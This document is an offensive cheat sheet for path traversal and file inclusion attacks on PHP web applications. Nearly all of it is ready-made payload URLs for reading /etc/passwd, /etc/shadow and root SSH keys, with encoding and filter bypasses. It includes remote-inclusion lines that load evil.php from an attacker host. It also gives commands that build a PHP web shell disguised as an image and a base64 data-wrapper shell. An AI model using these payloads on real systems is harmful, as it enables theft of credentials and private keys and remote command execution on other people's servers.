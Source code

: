 				Directory traversal
-- allows an attacker to read operating system resources, such as local files on the server running an application.			
![](lfi1.png)

				Important files to check
-- /proc/version 	      specifies the version of the Linux kernel
-- /etc/passwd 		      has all registered user that has access to a system
-- /etc/shadow		      contains information about the system's users' passwords
-- /var/mail/root	 	all emails for root user
-- var/log/dmessage	  contains global system messages
-- /root/.ssh/id_rsa	      Private SSH keys for a root or any known user
-- /root/.bash_history	    contains the history commands for root user

				Cheatsheet
Basics:
http://vulnerable-site.com/index.php?page=../../../etc/passwd
http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd
http://vulnerable-site.com/index.php?page=....\/....\/....\/etc/passwd
http://vulnerable-site.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

Null Byte Injection:
http://vulnerable-site.com/index.php?page=../../../etc/passwd%00
--------------------------------------------------------------------
Encoding:
http://vulnerable-site.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://vulnerable-site.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
--------------------------------------------------------------------
From an Existent Folder:
http://vulnerable-site.com/index.php?page=utils/scripts/../../../../../etc/passwd
--------------------------------------------------------------------
Path Truncation:
http://vulnerable-site.com/index.php?page=a/../../../../[ADDMORE]../../../../../etc/passwd
--------------------------------------------------------------------
Filter Bypass: 
http://vulnerable-site.com/index.php?page=....//....//etc/passwd
http://vulnerable-site.com/index.php?page=..///////..////..//////etc/passwd
http://vulnerable-site.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd http://vulnerable-site.com/index.php?page=/var/www/../../etc/passwd
--------------------------------------------------------------------
RFI:
http://vulnerable-site.com/index.php?page=http://atacker.com/evil.php
http://vulnerable-site.com/index.php?page=\\attacker.com\evil.php
--------------------------------------------------------------------
PHP Wrappers: filter
http://vulnerable-site.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://vulnerable-site.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
--------------------------------------------------------------------
PHP wrapper: zlib
http://vulnerable-site.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
--------------------------------------------------------------------
PHP wrapper: ZIP
echo "<pre'><?php system($_GET[‘cmd’]);?></pre'>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php
http://vulnerable-site.com/index.php?page=zip://shell.jpg%23payload.php
--------------------------------------------------------------------
PHP wrapper: Data
http://vulnerable-site.com/?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>
http://vulnerable-site.com/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
The payload: “<?php system($_GET[‘cmd’]);”
------------------------------------------------------------------------------------------